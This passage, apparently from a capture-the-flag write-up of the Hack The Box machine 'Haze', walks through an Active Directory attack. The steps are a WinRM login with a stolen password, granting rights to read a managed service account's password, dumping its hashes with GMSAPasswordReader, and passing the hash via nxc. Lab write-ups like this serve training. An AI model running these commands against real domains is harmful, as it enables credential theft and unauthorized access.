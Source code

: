 Additionally, from the image above we can see that `Mark Adams` is a member of `Remote Management Users`, which means we have access to `remote` into the machine. so let's `WinRM` into the box:

```bash
evil-winrm -i 10.129.228.118 -u 'mark.adams' -p 'Ld@p_Auth_Sp1unk@2k24'

Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\mark.adams\Documents>
```

# User

Transfer over [GMSAPasswordReader.exe](https://github.com/expl0itabl3/Toolies/blob/master/GMSAPasswordReader.exe).

First let's ensure that we have rights to read the password.

```powershell
*Evil-WinRM* PS C:\Users\mark.adams> Set-ADServiceAccount -Identity Haze-IT-Backup$ -PrincipalsAllowedToRetrieveManagedPassword mark.adams
```

Then let's use `GMSAPAsswordReader` to read `Haze-IT-Backups` hashes.

```
*Evil-WinRM* PS C:\Users\mark.adams> ./GMSAPasswordReader.exe --accountname "Haze-IT-Backup"

Calculating hashes for Current Value
[*] Input username             : Haze-IT-Backup$
[*] Input domain               : HAZE.HTB
[*] Salt                       : HAZE.HTBHaze-IT-Backup$
[*]       rc4_hmac             : 735C02C6B2DC54C3C8C6891F55279EBC
[*]       aes128_cts_hmac_sha1 : FDE2DBD661BE96B4AC1F68036104A22B
[*]       aes256_cts_hmac_sha1 : BBD639BFE8461AEC4F850A5500422767C4EF51E9FD26D0003C9653ED4571EA15
[*]       des_cbc_md5          : 9EA2310B9D2A94AB
```

Let's check if we can authenticate.

```bash
nxc ldap haze.htb -u 'Haze-IT-Backup$' -H 735C02C6B2DC54C3C8C6891F55279EBC

LDAP        10.129.228.118  389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb)
LDAP        10.129.228.118  389    DC01             [+] haze.htb\Haze-IT-Backup$:735C02C6B2DC54C3C8C6891F55279EBC
```

`Haze-IT-Backup$` can write owner over `Support_Services` group.
![Haze-1743288136172.png](/assets/img/img_Haze/Haze-1743288136172.png)

